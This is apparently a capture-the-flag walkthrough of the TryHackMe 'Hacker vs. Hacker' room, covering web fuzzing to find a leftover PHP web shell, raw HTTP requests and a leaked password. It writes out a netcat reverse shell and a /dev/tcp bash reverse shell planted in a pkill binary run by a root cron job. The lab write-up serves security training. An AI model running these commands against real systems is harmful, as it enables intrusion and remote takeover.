 ```yaml
---

title: Walkthrough - Hacker vs. Hacker
published: true
---
```


Tags: Web Foothold, Enumeration.
Description: Someone has compromised this server already! Can you get in and evade their countermeasures?
Difficulty: Easy
URL: [https://tryhackme.com/room/hackervshacker](https://tryhackme.com/room/hackervshacker)

* * *

## Notes

> The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

Port 80 has a website and the upload form has been hacked.

Caputuring in burposuite we see the hacker left behind some code for us

```
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

So we cant upload a shell, we cant access cvs. So maybe we can find the shell the hacker left over... We can use `fuff` which is a super easy to use fuzzer.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/FUZZ.pdf.php`

Here we find shell. Lets check that out on the site. All we have is BOOM. We can use fuzz some more to extrapolate some more information about this php.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/shell.pdf.php?FUZZ=id -fs 18` this command will exclude all results with 18 characters. And here we find `cmd` is the variable we are looking for.

Capture the request in burpsuite and send it to the repeater.

```
GET /cvs/shell.pdf.php?cmd=id HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Since this is executing commands and sending us our ID we can edit this in order to send us a reverse shell. Setup netcat listener and lets try.

- use `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` as the variables parameter and encode it as url to recieve reverse shell

```
GET /cvs/shell.pdf.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%31%32%37%2e%32%32%35%20%36%36%36%36%20%3e%2f%74%6d%70%2f%66 HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

* * * 

## user.txt?

![](/assets/hackervshacker.png)

* * * 

## root.txt?

everytime we try to upgrade the shell we get noped out of it. kind of hilarious. hmm

```
cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

We can login via ssh using these creds. But we keep getting kicked. 

- `cat /etc/cron.d/persistence`

root is running crontab that is executing pkill, we can use this to send us another revshell as root. quickly logging into ssh and executing the following command gives us root shell.

`echo "bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'" > bin/pkill ; chmod  +x bin/pkill`

* * * 

